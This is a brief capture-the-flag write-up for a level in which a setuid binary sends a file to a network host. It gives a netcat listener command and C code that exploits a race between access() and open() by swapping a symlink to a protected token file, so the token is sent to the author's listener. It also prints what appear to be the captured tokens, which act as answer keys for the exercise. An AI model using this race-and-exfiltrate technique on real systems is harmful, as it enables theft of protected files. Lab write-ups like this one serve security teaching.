

# Level 10





can't connect to 10.13.100.41.6969


let's trace the program


we found multiple syscalls and library calls:

[access](/level10/resources/access.md )  is used to  check whether the file is readable


**socket function**

from [socket.h](https://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html) we can find the value used in socket function parameter

- domain : Specifies the communication domain or protocol family  

    `AF_INET`: For IPv4 Internet protocols.

**type** Specifies the type of socket, determining the communication semantics

`SOCK_STREAM`: For connection-oriented, reliable, and ordered byte streams (e.g., TCP).

in the third parameter `protocol` this is often set to 0, which means the system will automatically choose the appropriate default protocol


**inet_addr function**
The inet_addr() function shall convert the string pointed to by cp, in the standard IPv4 dotted decimal notation, to an integer value suitable for use as an Internet address.

it returns `0x29640d0a ===> (694422794)10`


`woupa2yuojeeaaed06riuj63c`
`feulo4b72j7edeahuete3no7c`


https://superuser.com/questions/1008348/netcat-keep-listening-for-connection-in-debian

https://man7.org/linux/man-pages/man2/access.2.html

https://stackoverflow.com/questions/11525164/what-is-wrong-with-access

https://stackoverflow.com/questions/14333112/access2-system-call-security-issue


```bash
nc -l -k 6969
```

```c
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void* myThreadFunc(void* arg) {
        printf("Thread is running...\n");
	system("touch /tmp/badr/dawzer ; /home/user/level10/level10 /tmp/badr/dawzer 10.13.100.41");
	sleep(1);
    return NULL;
}


int main() {
    pthread_t thread;

    int i = 0;
    while(i < 10) {
	    pthread_create(&thread, NULL, myThreadFunc, NULL);
	    system("ln -s /home/user/level10/token /tmp/badr/ ; mv /tmp/badr/token /tmp/badr/dawzer ; rm /tmp/badr/dawzer");
	    pthread_join(thread, NULL);
	    i++;
    }


    return 0;
}
```